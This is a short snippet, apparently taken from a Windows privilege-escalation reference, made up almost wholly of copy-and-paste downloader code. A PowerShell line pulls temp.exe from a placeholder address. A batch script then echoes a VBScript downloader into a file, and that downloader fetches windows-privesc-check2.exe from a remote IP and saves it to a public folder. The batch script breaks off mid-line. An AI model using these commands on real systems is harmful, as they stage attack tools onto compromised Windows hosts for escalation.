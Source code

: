 ```powershell
Invoke-WebRequest -OutFile temp.exe -Uri http://10.10.10.10:8000/temp.exe
```

[reference](https://raw.githubusercontent.com/frizb/Windows-Privilege-Escalation/refs/heads/master/CopyAndPasteFileDownloader.bat)

```bat
 echo Set args = Wscript.Arguments  > webdl.vbs
 timeout 1
 echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
 timeout 1
 echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
 timeout 1
 echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
 timeout 1
 echo xHttp.Open "GET", Url, False  >> webdl.vbs
 timeout 1
 echo xHttp.Send  >> webdl.vbs
 timeout 1
 echo with bStrm      >> webdl.vbs
 timeout 1
 echo 	.type = 1 '      >> webdl.vbs
 timeout 1
 echo 	.open      >> webdl.vbs
 timeout 1
 echo 	.write xHttp.responseBody      >> webdl.vbs
 timeout 1
 echo 	.savetofile "C:\users\public\windows-privesc-check2.exe", 2 '  >> webdl.vbs
 timeout 1
 echo end with >> webdl.vbs
 timeout 1
 echo
```